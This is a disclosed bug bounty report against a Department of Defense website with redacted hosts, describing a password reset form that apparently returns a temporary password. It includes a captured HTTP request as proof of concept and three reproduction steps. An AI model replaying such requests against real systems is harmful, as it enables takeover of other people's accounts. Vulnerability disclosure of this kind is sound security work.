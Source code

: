 # Full account takeover of any user through reset password

## Report Details
- **Report ID**: 2194928
- **URL**: https://hackerone.com/reports/2194928
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-10-05T17:49:51.210Z
- **Disclosed**: 2023-11-17T18:10:47.096Z

## Reporter
- **Username**: maskedpersian
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi Team
I just checking this Url https://██████  and notice that when you request  to forget password ,website send temp password in forget password request 
my password in request is: ███
Poc:
```
POST /__852585b6003eba25.nsf/forgotpassword.html?OpenForm&Seq=1 HTTP/1.1
Host: www.██████
Cookie: _ga=GA1.2.1700054986.1696324867; _ga_CSLL4ZEK4L=GS1.1.1696324866.1.1.1696324913.0.0.0; _ga_YQMQPQYJ4J=GS1.1.1696324867.1.1.1696324913.0.0.0
Content-Length: 436
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://www.██████
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://www.███████/852585B6003EBA25/forgotpassword.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fa;q=0.8
Connection: close

__Click=0&HTTP_HOST=www.██████████&HTTPS=ON&SERVER_NAME=www.████&%24DbPath=https%3A%2F%2Fwww.███████%2F852585B6003EBA25&████████&dbPath=https%3A%2F%2Fwww.█████%2F852585B6003EBA25&RepId=852585B6003EBA25&QUERY_STRING_DECODED=&eMailAddress=███.com&%25%25Surrogate_ChallengeQuestion=1&ChallengeQuestion=What+is+a+street+name+where+you+were+raised%3F&ChallengeAnswer=dez
```

## Impact

Full account takeover of any user through reset password

## System Host(s)
█████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1-request for forget password
2-capture request 
3- read password

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
